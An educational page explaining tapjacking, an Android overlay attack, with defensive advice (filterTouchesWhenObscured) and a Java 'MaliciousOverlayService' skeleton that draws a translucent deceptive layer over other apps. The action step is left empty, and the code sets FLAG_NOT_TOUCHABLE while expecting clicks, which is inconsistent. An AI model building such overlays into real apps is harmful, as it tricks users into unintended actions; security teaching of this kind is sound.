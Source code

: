 # Tapjacking


# 👉 Overview

---

### 👀 What ?

> Tapjacking is a type of UI redressing attack where a malicious application tricks a user into interacting with a different application's UI. This is typically done by overlaying a transparent layer with deceptive elements over a legitimate application.
> 

### 🧐 Why ?

> Tapjacking poses a significant threat to mobile application security. It can lead to unauthorized access to sensitive data, installation of unwanted applications, or execution of undesired actions without the user's knowledge. Awareness of this issue is critical for users to avoid falling victim to such attacks and for developers to implement appropriate defenses in their applications.
> 

### ⛏️ How ?

> To prevent tapjacking, developers can use the 'setFilterTouchesWhenObscured' method or the 'android:filterTouchesWhenObscured' attribute in their application. This makes the application ignore touches that are obscured by another visible window. For users, it's crucial to only download applications from trusted sources and to pay attention to any unusual behavior or unexpected prompts on their device.
> 

### ⏳ When ?

> Tapjacking has been a known threat since around 2010, with the rise of touch screen mobile devices. It continues to be a relevant issue today, especially with the increasing use of mobile applications for sensitive transactions.
> 

# ⚙️ Technical Explanations

---

Tapjacking exploits the ability in mobile operating systems to display one application's interface on top of another. The attacker creates a malicious application with a transparent interface and tricks the user into interacting with it. The touches are passed to the underlying legitimate application, triggering unintended actions. For instance, the malicious application could mimic a game, while in reality, the user is giving permissions to the application in the underlying layer. This issue is primarily on Android devices, as iOS has stricter controls on overlay permissions. However, it remains a pervasive threat due to the large number of Android users and the variety of software versions in use.

Let's consider an example where the malicious app overlays a deceptive UI on top of a legitimate app. Here's a more advanced version of the code that an attacker might use:

```java
public class MaliciousOverlayService extends Service {
    private WindowManager windowManager;
    private ViewGroup overlayView;

    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }

    @Override
    public void onCreate() {
        super.onCreate();
        windowManager = (WindowManager) getSystemService(WINDOW_SERVICE);
        overlayView = createOverlayView();
        addOverlayView(overlayView);
    }

    private ViewGroup createOverlayView() {
        WindowManager.LayoutParams params = new WindowManager.LayoutParams(
                WindowManager.LayoutParams.MATCH_PARENT,
                WindowManager.LayoutParams.MATCH_PARENT,
                WindowManager.LayoutParams.TYPE_APPLICATION_OVERLAY,
                WindowManager.LayoutParams.FLAG_NOT_TOUCHABLE |
                        WindowManager.LayoutParams.FLAG_LAYOUT_IN_SCREEN,
                PixelFormat.TRANSLUCENT);

        LinearLayout overlayView = new LinearLayout(this);
        overlayView.setLayoutParams(params);
        overlayView.setBackgroundColor(Color.parseColor("#55000000"));

        LayoutInflater inflater = LayoutInflater.from(this);
        View deceptiveView = inflater.inflate(R.layout.deceptive_layout, overlayView);
        deceptiveView.setOnClickListener(v -> {
            // Code to trigger actions in the underlying legitimate app
        });

        return overlayView;
    }

    private void addOverlayView(ViewGroup overlayView) {
        WindowManager.LayoutParams params = (WindowManager.LayoutParams) overlayView.getLayoutParams();
        windowManager.addView(overlayView, params);
    }

    @Override
    public void onDestroy() {
        super.onDestroy();
        if (overlayView != null) {
            windowManager.removeView(overlayView);
            overlayView = null;
        }
    }
}

```

1. `MaliciousOverlayService` is a service that creates and manages the overlay view.
2. The `createOverlayView` method creates a new ViewGroup with a deceptive layout that will be displayed over other apps. The layout parameters are set to `TYPE_APPLICATION_OVERLAY`, which allows it to appear on top of other apps. The layout is also not touchable (`FLAG_NOT_TOUCHABLE`) and will be laid out in the entire screen (`FLAG_LAYOUT_IN_SCREEN`).
3. A deceptive view is inflated from a layout resource (`R.layout.deceptive_layout`) and added to the overlay view. An onClickListener is set on the deceptive view to trigger actions in the underlying legitimate app when the user interacts with it.
4. The `addOverlayView` method adds the overlay view to the window manager, which displays it on top of other apps.
5. When the service is destroyed, the overlay view is removed from the window manager in the `onDestroy` method.

This code provides a more detailed and realistic example of how a tapjacking attack could be implemented. However, it's critical to note that this example is for educational purposes only and should not be used for malicious purposes.

# 🖇️ Références

---